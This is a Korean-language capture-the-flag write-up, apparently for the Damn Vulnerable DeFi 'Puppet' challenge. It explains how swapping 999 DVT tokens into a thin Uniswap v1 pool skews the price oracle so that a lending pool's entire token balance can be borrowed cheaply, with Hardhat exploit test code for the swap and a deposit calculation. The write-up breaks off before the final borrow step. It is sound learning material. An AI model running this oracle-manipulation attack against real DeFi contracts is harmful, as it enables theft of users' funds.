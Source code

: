 를 통해서 이더의 양을 미리 알아내면 

![이더의양.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ff3b8522-72ab-4030-8e3f-a6dff64cec10/%EC%9D%B4%EB%8D%94%EC%9D%98%EC%96%91.png)

hex 값으로 결과가 나온다. 이는 9900695134061569016 이고 약 9.9이더다.

문제에서 얻고자 하는 것은 최종적으로 대출풀에 있는 토큰 10만개를 다 가져오고 공격자의 주소에 토큰이 10만개보다 커야하므로 토큰을 1000개보다 덜 보내도 되는지 계산해보았다. (안그러면 나중에 다시 스왑해야해서 귀찮음)

```tsx
it('Exploit', async function () {
        console.log(await this.uniswapExchange.getTokenToEthInputPrice(
            ethers.utils.parseEther('999'),
            { gasLimit: 1e6 }));
    });
```

![999토큰으로 이더의양.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ddf317ac-038a-4070-9bc5-594814b3839a/999%ED%86%A0%ED%81%B0%EC%9C%BC%EB%A1%9C_%EC%9D%B4%EB%8D%94%EC%9D%98%EC%96%91.png)

그 결과는 9900596717902431702으로 여전히 9.9이더로 나온다.

따라서 999 DVT 토큰을 보내고나면 유니스왑에는 10이더 * 10DVT 토큰으로 이루어져있던 비율이 0.1이더 *1000 DVT 토큰 가량으로 바뀌게 된다. 그러면 1이더는 약 1만 DVT 토큰이므로 10만 DVT 토큰을 대출하기 위해서는 약 20이더 (두배를 입금해야 하므로)정도 될것이다. 공격자는 아마 초기 25이더 + 9.9이더를 받을 것이기 때문에 34이더 이상을 가지고 있어 충분한 이더를 가질 것으로 예상된다.

혹시 모르니 보내고 난 후 10만 DVT토큰을 대출하기 위해 적절한 이더를 가지고 있는지 확인해보자.

```tsx
it('Exploit', async function () {
        await this.token.connect(attacker).approve( this.uniswapExchange.address, ATTACKER_INITIAL_TOKEN_BALANCE);
        
        console.log(await this.uniswapExchange.getTokenToEthInputPrice(
            ethers.utils.parseEther('999'),
            { gasLimit: 1e6 }));
        
        await this.uniswapExchange.connect(attacker).tokenToEthTransferInput(
            ethers.utils.parseEther('999'),
            ethers.utils.parseEther('9'),
            (await ethers.provider.getBlock('latest')).timestamp * 2,
            attacker.address
            );
        
        let deposit_eth = await this.lendingPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
        console.log(await ethers.provider.getBalance(attacker.address));
        console.log(deposit_eth);
    });
```

유니스왑에서 내 토큰을 가져갈 수 있도록 먼저 approve를 해주어야 한다.

그 다음 tokenToEtherTransferInput(팔 토큰의 양, 구매할 최소 이더의 양, 트랜잭션의 기한, 보낼주소)에 맞춰서 가지고 있는 999DVT 토큰을 유니스왑에 있는 이더로 바꾸어 가져온다. 

![로그.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9dca6775-7300-4520-86e3-6289ec9b0391/%EB%A1%9C%EA%B7%B8.png)
